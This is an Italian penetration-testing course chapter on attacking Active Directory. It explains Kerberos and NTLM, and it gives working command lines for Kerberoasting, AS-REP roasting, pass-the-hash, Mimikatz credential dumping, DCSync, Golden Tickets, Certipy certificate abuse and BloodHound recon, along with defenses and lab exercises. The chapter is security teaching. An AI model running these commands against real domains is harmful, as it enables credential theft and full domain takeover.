




# Active Directory hacking

> Active Directory è la spina dorsale dell'identity di ~90% delle aziende mondiali. Conoscerlo dentro è la differenza tra junior e senior pentest. Una sezione lunga ma necessaria.

## AD in 10 secondi

**Active Directory Domain Services (AD DS)** è la directory centralizzata Microsoft che gestisce:
- Utenti e gruppi.
- Computer.
- Politiche di sicurezza (GPO).
- DNS interno aziendale.
- Authentication (Kerberos primary, NTLM legacy).

**Struttura:**
- **Forest** — limite di trust (multiple domain).
- **Domain** — namespace (`example.local`).
- **OU** — organizational unit (folder logica).
- **Sites** — topologia fisica (subnet ↔ DC mapping per replica/log on).
- **Trust** — relazioni tra domini/foreste.

**Componenti chiave:**
- **DC** (Domain Controller) — host con AD DS.
- **GC** (Global Catalog) — indice cross-domain.
- **KDC** (Key Distribution Center) — fa Kerberos, è il DC stesso.
- **DNS** — di solito sul DC.
- **SYSVOL** — share replicata che contiene GPO.

## Kerberos passo-passo (la versione lunga)

> Kerberos è "compresso" in molti tutorial. Qui lo spezzetto perché tutti gli attacchi AD si fondano su comprenderlo.

### L'idea base

Tre attori:
- **KDC** (Key Distribution Center): un singolo processo sul DC che fa due ruoli logici: AS (autentica) e TGS (rilascia ticket per servizi).
- **Client**: l'utente (o computer) che vuole accedere a qualcosa.
- **Servizio**: SMB su un file server, LDAP sul DC, HTTP su un'app, MSSQL su un DB.

Il principio: **mai inviare la password al servizio**. Si scambiano **ticket** cifrati che il servizio sa verificare perché condivide una chiave segreta col KDC.

Tutte le chiavi sono **derivate da password** via KDF (RC4-HMAC = NT hash, oppure AES128/AES256 + salt = string2key).

### Le chiavi in gioco (la cosa che confonde tutti)

Tre tipi di chiavi simmetriche:

| Chiave | Derivata da | Chi la conosce | A cosa serve |
|---|---|---|---|
| **Chiave utente** $K_U$ | password di alice | alice + KDC | cifrare l'AS-REP per alice |
| **Chiave krbtgt** $K_{krbtgt}$ | password account `krbtgt` | solo KDC | cifrare il TGT (per il KDC stesso) |
| **Chiave servizio** $K_S$ | password account servizio (o computer$) | servizio + KDC | cifrare il service ticket |

A queste si aggiungono le **session keys**: chiavi simmetriche random generate dal KDC per ogni sessione, dentro ticket cifrati.

### Fase 1 — AS-REQ / AS-REP (l'utente prova chi è)



**Cosa contiene il TGT** (quando il KDC lo cifra, nessuno lo legge fuori dal KDC):
- identità del client (`alice@EXAMPLE.LOCAL`)
- **session key** TGS (random, valida per la sessione)
- gruppi di appartenenza (encoded nel **PAC** — Privilege Attribute Certificate)
- validità (tipicamente 10 ore)
- flags (forwardable, renewable, ...)

**Pre-Authentication** (la `PA-ENC-TIMESTAMP`): se manca, il KDC darebbe AS-REP a chiunque chiedesse "fingiti alice" → l'attaccante riceverebbe materiale cifrato con $K_U$ e potrebbe brute-forzare offline. **Questo è esattamente AS-REP Roasting** — funziona solo se preauth è disabilitato sull'account.

### Fase 2 — TGS-REQ / TGS-REP (chiedo un ticket per un servizio specifico)



Punti chiave:
- Il KDC **non** chiede di nuovo la password ad alice. Si fida del TGT che ha cifrato lui stesso.
- Il service ticket è cifrato con $K_S$ = chiave del **target service** (es. l'account di servizio mssql_svc, o l'account computer FILESERVER01$).
- **Kerberoasting**: chiunque ha un TGT può chiedere TGS per qualsiasi SPN. Riceve un blob cifrato con $K_S$. Se la password dell'account servizio è debole, brute-force offline.

### Fase 3 — AP-REQ / AP-REP (presento il ticket al servizio)



Il servizio **non parla mai con il KDC** durante questo step: ha tutto quello che gli serve per validare il ticket grazie a $K_S$ pre-condivisa.

### Cosa è il PAC e perché è importante

Il **PAC** (Privilege Attribute Certificate) è una struttura **dentro** il ticket che contiene:
- SID dell'utente.
- SID dei gruppi (Domain Admins, Domain Users, ...).
- Logon time.
- Server signature + KDC signature (per integrità).

Quando arriva al servizio, il PAC dice "ecco i ruoli di alice". Il servizio decide autorizzazione (es. SMB sui share basati sui gruppi).

**Golden Ticket** = forgia un TGT con krbtgt hash + PAC controllato (mettiti in Domain Admins). Stamperà sempre Authorized perché il PAC è dentro al ticket cifrato e nessuno richiama il KDC per validare.

### Esempio numerico di crack Kerberoast

Catturi un TGS-REP con `GetUserSPNs.py`. Estrai:
```
$krb5tgs$23$*mssql_svc$EXAMPLE.LOCAL$cifs/sql01.example.local*$<RC4 ciphertext>
```

`23` = encryption type RC4-HMAC (NT hash come chiave). Crack:
```bash
hashcat -m 13100 ticket.txt rockyou.txt
```

Per ogni candidate `pw`:
- Calcola $K = \text{MD4}(\text{UTF-16LE}(pw))$ (NT hash).
- Decrypt RC4 ciphertext.
- Se il plaintext inizia con uno schema ASN.1 valido (Kerberos struct), match.

Velocità: ~10 GH/s su RTX 4090. Password 8 char miste = ore o giorni; passphrase forti = secoli.

> **Lezione**: usa `--enctype aes256` (oggi default) per service ticket = $K = \text{PBKDF2}(pw)$ molto più lento da crackare. E meglio ancora **gMSA** (password 240 byte random gestita da Microsoft).

### Sintesi visuale dei 3 hop



### Riepilogo "dove si attacca"

| Fase | Materiale catturabile | Attack name | Cosa serve come pre-req |
|---|---|---|---|
| AS-REP senza preauth | E(K_U, ...) | **AS-REP Roasting** | utente con `DONT_REQ_PREAUTH` |
| TGS-REP per qualsiasi SPN | E(K_S, ...) | **Kerberoasting** | un qualsiasi utente di dominio |
| krbtgt hash compromesso | — | **Golden Ticket** | DCSync o full compromise |
| service account hash | — | **Silver Ticket** | compromesso account servizio |
| TGT in memoria di server con unconstrained delegation | TGT vittime | **Unconstrained delegation abuse** | controllo del server |
| ACL su computer object | scrittura `msDS-AllowedToActOnBehalfOfOtherIdentity` | **RBCD** | WriteDACL/GenericWrite |

**Identifica un account "di servizio" da SPN (Service Principal Name).**

## NTLM (legacy ma vivo)

Challenge-response basato su hash:
- Client manda `NEGOTIATE`.
- Server `CHALLENGE` con random.
- Client risponde con `NTLM(hash, challenge)`.
- Server verifica.

**Hash di NTLM:** MD4 della password Unicode. **Veloce da crackare** (sub-secondo se debole).

Cracking via Responder, vedi sezione 12.

## Recon AD (post-foothold)

Una volta dentro un host con un utente di dominio (qualsiasi):

### Senza tool offensivi (LotL)

```powershell
# Domain info
Get-ADDomain                         # ActiveDirectory module se installato
nltest /domain_trusts
nltest /dclist:example.local

whoami /groups
whoami /priv

net user /domain
net group "Domain Admins" /domain
net group "Enterprise Admins" /domain

# Sessioni
qwinsta /server:dc01
quser /server:fileserver

# Tutti i computer
Get-ADComputer -Filter * | Select Name
```

### Con tool offensivi

**BloodHound** è il gold standard:
1. Collector (**SharpHound** in C#, **BloodHound.py** in Python, **RustHound**).
2. Importa JSON in BloodHound (Neo4j backend).
3. Esegui query Cypher pre-built ("Find Shortest Path to Domain Admin", "Kerberoastable users", ...).

```bash
# SharpHound.exe (sul target)
SharpHound.exe -c All --zipfilename loot.zip

# BloodHound.py (da Linux con creds)
bloodhound-python -d example.local -u alice -p Password1 -c all -ns 10.10.10.1
```

**enum4linux-ng**, **CrackMapExec/NetExec**, **PowerView** (PowerShell).

```bash
nxc smb 10.10.10.0/24 -u users.txt -p passwords.txt --continue-on-success
nxc ldap dc01 -u alice -p Password1 --users
nxc ldap dc01 -u alice -p Password1 --asreproast asrep.txt
nxc ldap dc01 -u alice -p Password1 --kerberoast spn.txt
```

## Gli attacchi classici

### 1. AS-REP Roasting

Se un account ha **"Do not require Kerberos preauthentication"** (UAC `DONT_REQ_PREAUTH`), chiunque può richiedere il suo AS-REP — che contiene materiale cifrato con l'hash della password. Lo metti in hashcat.

```bash
GetNPUsers.py -dc-ip 10.10.10.1 example.local/ -usersfile users.txt -no-pass
hashcat -m 18200 hashes.txt rockyou.txt
```

Mitigazione: rimuovere flag (configurazione utente).

### 2. Kerberoasting

Ogni utente di dominio può richiedere **service ticket** per qualsiasi SPN. Il service ticket è cifrato con l'hash della password dell'**account servizio**. Se l'account è un user con password debole → crack offline.

```bash
GetUserSPNs.py example.local/alice:Password1 -dc-ip 10.10.10.1 -request -outputfile spns.txt
hashcat -m 13100 spns.txt rockyou.txt
```

Mitigazione:
- Account servizio devono essere **gMSA** (Group Managed Service Account, Microsoft genera/rotea password).
- Password lunghe (25+ random).
- AES instead of RC4 (mode `--enctype aes` se possibile).

### 3. Pass-the-Hash (PTH)

In NTLM, **se hai l'hash della password, non ti serve la password**. Lo usi direttamente.

```bash
nxc smb 10.10.10.5 -u alice -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
psexec.py -hashes :NTHASH alice@10.10.10.5
```

Mitigazione: Credential Guard (LSASS isolato), restrict NTLM in policy.

### 4. Pass-the-Ticket / Overpass-the-Hash

Stessa idea ma con ticket Kerberos. **Overpass-the-Hash**: dato un NT hash, richiedi un TGT (RC4-HMAC) per quell'utente.

```bash
# Rubeus on Windows
Rubeus.exe asktgt /user:alice /domain:example.local /rc4:HASH /ptt
# poi
klist  # vedi il ticket
# Comandi che usano Kerberos ora funzionano come alice
```

### 5. Mimikatz e LSASS

Sul target compromesso con admin local:

```text
privilege::debug
sekurlsa::logonpasswords          # dump tutti gli hash + plaintext (vecchi WDigest)
sekurlsa::tickets /export          # esporta ticket
lsadump::dcsync /user:DC$         # se hai privileges
```

Difese: Credential Guard, Defender ASR ("Block credential stealing from LSASS"), EDR. Microsoft ha deprecato WDigest (niente più plaintext in memoria default), ma RC4 e NT hash sono ancora lì.

### 6. DCSync

Account con privilegio **DS-Replication-Get-Changes-All** sul Domain Naming Context può richiedere replica → riceve hash di tutti gli utenti, incluso krbtgt.

```bash
secretsdump.py example.local/admin:Password1@dc01 -just-dc-ntlm
# Da Windows con Rubeus/Mimikatz:
lsadump::dcsync /user:krbtgt
```

Tipicamente: Domain Admins, Enterprise Admins, BUILTIN\Administrators del dominio. **A volte** anche account con permessi misconfigurati (cerca con `DCSync` in BloodHound).

### 7. Golden Ticket

Con l'hash krbtgt **forgi un TGT arbitrario**, valido per chiunque, di solito 10 anni. Persistence di lunga durata.

```text
mimikatz # kerberos::golden /domain:example.local /sid:S-1-5-21-... /krbtgt:HASH /user:Administrator /id:500 /ptt
```

Difesa: rotate twice krbtgt password (script Microsoft `Reset-KrbtgtKeyInteractive.ps1`).

### 8. Silver Ticket

Con l'hash di un **service account**, forgi un service ticket valido per quel servizio. Più stealth del golden (non passa dal DC).

### 9. Diamond / Sapphire Ticket

Tecniche moderne che modificano un ticket genuino prima della distribuzione (Diamond) o lo richiedono direttamente dal KDC con anomalie (Sapphire), per evadere detection.

### 10. Unconstrained Delegation Abuse

Se un host ha "Trust this computer for delegation to any service" → quando un utente si autentica a quel host, il suo TGT viene memorizzato lì. Compromettendo il server, raccogli TGT degli admin che si collegano.

**Printer Bug (CVE-2019-1040, Hot Potato, etc.)**: forza il DC a fare autenticazione SMB verso il tuo host con unconstrained → ricevi TGT del DC → tutto compromesso.

### 11. Constrained Delegation Abuse

"Account A può impersonare B verso servizio X". Se controlli A e B è admin di un altro server → impersoni B verso X.

**S4U2Self/S4U2Proxy** abuse.

### 12. Resource-Based Constrained Delegation (RBCD)

Aggiorna `msDS-AllowedToActOnBehalfOfOtherIdentity` dell'oggetto computer target → controlli quale account può impersonare verso quel computer. Combinato con altri primitives → SYSTEM remoto.

### 13. GPP Passwords

Group Policy Preferences storiche (pre-2014 patch MS14-025) memorizzavano password cifrate con chiave AES **pubblica nota**. Cerchi `cpassword=` in SYSVOL `\\domain.local\sysvol\domain\Policies\...\Groups.xml`. Decifri con `gpp-decrypt`. **Ancora ti trovi in legacy.**

### 14. ADCS — ESC1...ESC15

Active Directory Certificate Services (CA aziendale). Template di certificato malconfigurato = **diritto di emettere certificati per altri utenti** = persistenza permanente.

Esempi:
- **ESC1**: Template con `EnrolleeSuppliesSubject` + `CT_FLAG_NO_SECURITY_EXTENSION` + Client Authentication EKU + enrollable da utente low. → richiedi cert per "Administrator" → loggi come admin.
- **ESC4**: Template ACL → modifica te → diventa ESC1.
- **ESC8**: Web Enrollment via NTLM relay → relay → cert per DC$ → DCSync.
- **ESC9, ESC10, ESC11**: variant `no security extension` + `StrongCertificateBindingEnforcement` weak.

Tool: **Certipy** (Python), **Certify** (C#).

```bash
certipy find -u alice@example.local -p Password1 -dc-ip 10.10.10.1 -vulnerable -stdout
certipy req -u alice -p Password1 -ca CA-NAME -template "Vuln-Template" -upn admin@example.local -dc-ip 10.10.10.1
certipy auth -pfx admin.pfx
```

**Riferimento principale**: paper "Certified Pre-Owned" (SpecterOps, 2021).

### 15. ACL abuse

Right ACE sul Domain object (es. `GenericAll` sul DC) → DCSync. ACE su utente target → reset password / WriteSPN / WriteOwner → owner chain ad admin.

BloodHound mostra tutto. Cypher:
```cypher
MATCH p=(s:User)-[r:GenericAll|WriteDacl|WriteOwner|ForceChangePassword]->(t)
WHERE s.name STARTS WITH 'ALICE' RETURN p
```

### 16. Domain trust abuse

In foreste/domini con trust:
- **SID History injection** se forest trust non ha SID filtering (raro).
- **Trust ticket forgery** (cross-domain golden ticket).
- **Cross-forest Kerberos delegation**.

## Mappa di un attacco AD tipico (red team)

1. Accesso iniziale (phishing macro / vuln esposta).
2. Privesc locale a SYSTEM (sezione 06).
3. Credenziali su host (Mimikatz / DPAPI / Browser).
4. Recon AD (BloodHound).
5. Identifica path verso domain admin.
6. AS-REP roast / Kerberoast → crack offline.
7. Lateral movement via PSExec / WMI / WinRM con hash/cred catturate.
8. Eventualmente ADCS abuse / unconstrained / RBCD.
9. **DCSync** dal target con privilegi.
10. **Golden Ticket** per persistence.
11. Exfil dati.

## Difesa AD — i punti chiave

- **Tier model** (Tier 0/1/2): admin del dominio mai loggati su workstation; loro account separati.
- **PAW** (Privileged Access Workstations): macchine dedicate per ammin con baseline strict.
- **JEA / JIT** (Just Enough/Just In Time Admin): con Microsoft PAM o Identity Governance.
- **LAPS** (Local Administrator Password Solution): rotate password admin local univoche per host, memorizzate in AD.
- **Restrict NTLM**, **disable LLMNR/NBT-NS**, **SMB signing required**.
- **AD Tier-0 hardening**: niente service account in Domain Admins.
- **MDI** (Microsoft Defender for Identity, ex Azure ATP): rileva enumeration, attacchi Kerberos, lateral movement.
- **gMSA** per service account.
- **MFA** + Conditional Access per utenti privileged.
- **Patch Print Spooler** (PrintNightmare etc.); spesso disabilitare Print Spooler sui DC.
- **Rotate krbtgt** regolarmente.
- **ADCS** hardening: review template, disable Web Enrollment se non serve, EPA + LDAP signing.

## Azure AD / Entra ID (cenni)

Cloud AD ha modelli diversi:
- Token JWT.
- Conditional Access policies.
- Attacchi: **Pass-the-PRT** (Primary Refresh Token), **Token Theft**, **OAuth phishing** (illicit consent), **Device Code Phishing**.
- Tool: **ROADtools**, **AADInternals**, **GraphRunner**.

Spostarsi tra on-prem AD e Entra (hybrid) è una pentest avanzato a parte. Cerca Specterops blog "Death from Above", "Adversary in the Middle".

## Esercizi

### Esercizio 13.1 — Lab AD home
Setup minimo:
- Windows Server 2019/2022 → install AD DS, create `example.local`.
- Windows 10/11 client → join domain.
- 5-10 utenti finti con password varie (alcune deboli, alcune SPN).
- Disabilita SMB signing su un host. Configura LLMNR enabled.

Free templating: **GOAD** (Game of Active Directory by M4yfly) — `git clone https://github.com/Orange-Cyberdefense/GOAD`.

### Esercizio 13.2 — BloodHound walkthrough
Sul tuo lab:
```bash
bloodhound-python -d example.local -u alice -p Password1 -c all -ns 10.10.10.1
```

Importa in BloodHound. Esegui query:
- "Find Shortest Paths to Domain Admins".
- "Find AS-REP Roastable Users".
- "Find Kerberoastable Users".
- "Find principals with Path to High Value Targets".

### Esercizio 13.3 — Catena AS-REP → Kerberoast → DCSync
1. Identifica AS-REProastable, cracka una password.
2. Con quella, GetUserSPNs → Kerberoast.
3. Crack di un service account.
4. Cerca con BloodHound se quell'account ha privilegi DS-Replication.
5. Se sì → secretsdump → krbtgt hash.
6. Golden Ticket → Administrator.

### Esercizio 13.4 — Certipy ESC1
Su un lab con ADCS:
```bash
certipy find -u alice@example.local -p Password1 -dc-ip 10.10.10.1 -vulnerable -stdout
# trova "Vuln-Template" ESC1
certipy req -u alice -p Password1 -ca example-CA -template Vuln-Template -upn administrator@example.local
certipy auth -pfx administrator.pfx
```

Cosa stai dimostrando? Quale chiave esce alla fine? Cosa puoi farci?

### Esercizio 13.5 — TryHackMe / HackTheBox
- TryHackMe: **"Attacktive Directory"**, **"Holo"**.
- HackTheBox: macchine AD come **Active**, **Forest**, **Resolute**, **Cascade**, **Sauna**, **Monteverde**, **Mantis** (vecchie ma educative), **Object**, **Authority** (più moderne).

### Esercizio 13.6 — Mitigation walkthrough
Su un host: disabilita LLMNR via GPO. Enable SMB signing required. Aggiorna LAPS. Verifica con Responder che ora non riceve niente.

### Esercizio 13.7 — Detection
Esegui un AS-REP Roast e un Kerberoast nel tuo lab. Guarda Event Viewer / Sysmon sul DC:
- Event ID 4768 (TGT requested).
- Event ID 4769 (TGS requested).
- AAD: cosa ti dice MDI?

Quali campi indicano "comportamento sospetto"? Numerosità di TGS request con encryption RC4? "Don't require preauth" flagged?

## Concetti chiave

1. **Kerberos**: TGT, TGS, SPN.
2. **AS-REP Roast** e **Kerberoast** si fanno con un user di dominio basico.
3. **DCSync** richiede privilegi specifici → BloodHound li trova.
4. **NTLM legacy + relay** = problema ancora attualissimo.
5. **ADCS ESC1-15** sono spesso la via più diretta a Domain Admin.
6. **mimikatz + LSASS** vs Credential Guard / EDR.
7. **gMSA, LAPS, Tier model, EPA, LDAP/SMB signing** = pilastri di difesa AD.

Adesso ti porto nel mondo dei binari: exploit dev, reverse, malware.
